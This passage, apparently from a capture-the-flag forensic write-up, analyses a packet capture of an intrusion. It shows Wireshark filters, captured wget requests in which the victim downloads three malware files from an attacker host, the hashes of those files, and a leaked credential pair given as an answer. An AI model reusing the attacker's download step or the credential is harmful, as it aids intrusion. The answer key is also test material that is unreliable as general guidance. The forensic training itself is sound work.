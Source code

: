 **Answer:**sean:spectre

### <b><u> 7 - What is the tool used to download malicious files on the system? </u></b>

If we apply some filters we can reach a more clean listing
```
!ssh                      <- discard ssh communication
frame.nr > 1417           <- frames above the ssh session initiation 
!(ip.src == 23.20.23.147) <- connections that did not started from the attacker (because he pulled)

Filter: !ssh && frame.number > 1417 && !(ip.src == 23.20.23.147)
```

We can then see an http GET request to the attacker's machine.
```
1744	122.331491	10.252.174.188	23.20.23.147	HTTP	181	GET /d/1 HTTP/1.1 
```
Following the tcp stream for that packet we can see the header
```
GET /d/1 HTTP/1.1
User-Agent: Wget/1.13.4 (linux-gnu)
Accept: */*
Host: 23.20.23.147
Connection: Keep-Alive
```

**Answer:**wget

### <b><u> 8 - How many files the attacker download to perform malware installation? </u></b>

Craft a filter from the previous one
```
Filter: http && ip.src == 10.252.174.188

1744	122.331491	10.252.174.188	23.20.23.147	HTTP	181	GET /d/1 HTTP/1.1 
1795	122.580931	10.252.174.188	23.20.23.147	HTTP	181	GET /d/2 HTTP/1.1 
2020	122.852487	10.252.174.188	23.20.23.147	HTTP	181	GET /d/3 HTTP/1.1 
```

**Answer:** 3

### <b><u> 9 - What is the main malware MD5 hash? </u></b>

To obtain the downloaded files we can use wireshark exporting objects for the http connections<br>

Saving the 3 files we have the following information
```
cmd: file 1 2 3 && md5sum 1 2 3

1: ELF 64-bit LSB executable, x86-64, version 1 (GNU/Linux), statically linked, no section header
2: ELF 64-bit LSB relocatable, x86-64, version 1 (SYSV), BuildID[sha1]=21064e0e38e436aa28aecd2612f20205977b3826, with debug_info, not stripped
3: Bourne-Again shell script, ASCII text executable

772b620736b760c1d736b1e6ba2f885b  1
2f41df5a12a1f64e47dede21f1c47326  2
dadbb7fe0577d016bb825d3c59dc3715  3
```
